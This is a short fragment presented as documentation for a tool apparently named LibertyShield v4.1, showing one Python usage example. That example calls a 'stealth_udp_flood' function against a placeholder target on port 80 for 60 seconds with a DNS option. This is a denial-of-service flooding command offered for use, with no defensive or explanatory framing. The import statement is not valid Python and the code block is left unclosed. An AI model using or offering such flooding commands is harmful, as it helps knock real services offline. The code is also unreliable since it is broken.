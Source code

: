 # LibertyShield v4.1 Documentation

## Enhanced UDP Dispatch
```python
from LibertyShield_v4.1 import UDPEnhancements
UDPEnhancements.stealth_udp_flood("target.com", 80, 60, protocol='dns')
